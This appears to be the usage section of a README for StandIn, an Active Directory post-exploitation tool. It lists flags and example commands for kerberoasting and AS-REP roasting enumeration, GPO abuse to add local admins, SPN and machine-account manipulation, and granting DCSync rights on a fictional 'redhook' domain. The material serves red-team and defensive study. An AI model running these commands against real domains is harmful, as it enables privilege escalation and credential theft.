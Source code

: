 ```
--user          User name
--pass          Password
--newpass       New password to set for object
--gpo           List group policy objects
--acl           Show ACL's for returned GPO's
--localadmin    Add samAccountName to BUILTIN\Administrators for vulnerable GPO
--setuserrights samAccountName for which to add token rights in a vulnerable GPO
--tasktype      Immediate task type (user/computer)
--taskname      Immediate task name
--author        Immediate task author
--command       Immediate task command
--args          Immediate task command args
--target        Optional, filter for DNS name or NTAccount
--targetsid     Optional, provider user SID
--increase      Increment either the user or computer GPO version number for the AD object
--policy        Reads some account/kerberos properties from the "Default Domain Policy"
--dns           Performs ADIDNS enumeration, supports wildcard filters
--legacy        Boolean, sets DNS seach root to legacy (CN=System)
--forest        Boolean, sets DNS seach root to forest (DC=ForestDnsZones)
--passnotreq    Boolean, list accounts that have PASSWD_NOTREQD set
--type          Rights type: GenericAll, GenericWrite, ResetPassword, WriteMembers, DCSync
--spn           Boolean, list kerberoastable accounts
--setspn        samAccountName for which to add/remove an SPN
--principal     Principal name to add to samAccountName (e.g. MSSQL/VermisMysteriis)
--delegation    Boolean, list accounts with unconstrained / constrained delegation
--asrep         Boolean, list ASREP roastable accounts
--dc            Boolean, list all domain controllers
--add           Boolean, context dependent group/spn
--remove        Boolean, context dependent msDS-AllowedToActOnBehalfOfOtherIdentity/group
--make          Boolean, make machine; ms-DS-MachineAccountQuota applies
--disable       Boolean, disable machine; should be the same user that created the machine
--access        Boolean, list access permissions for object
--delete        Boolean, delete machine from AD; requires elevated AD access

 >--~~--> Usage? <--~~--<

# Perform LDAP search
StandIn.exe --ldap "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"
StandIn.exe --ldap servicePrincipalName=* --domain redhook --user RFludd --pass Cl4vi$Alchemi4e --limit 10
StandIn.exe --ldap servicePrincipalName=* --filter "pwdlastset, distinguishedname, lastlogon" --limit 100

# Query object properties by LDAP filter
StandIn.exe --object "(&(samAccountType=805306368)(servicePrincipalName=*vermismysteriis.redhook.local*))"
StandIn.exe --object samaccountname=Celephais-01$ --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --object samaccountname=Celephais-01$ --filter "pwdlastset, serviceprincipalname, objectsid"

# Query object access permissions, optionally filter by NTAccount
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --access
StandIn.exe --object samaccountname=Rllyeh$ --access --ntaccount "REDHOOK\EDerby"
StandIn.exe --object samaccountname=JCurwen --access --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Grant object access permissions
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --grant "REDHOOK\MBWillett" --type DCSync
StandIn.exe --object "distinguishedname=DC=redhook,DC=local" --grant "REDHOOK\MBWillett" --guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
```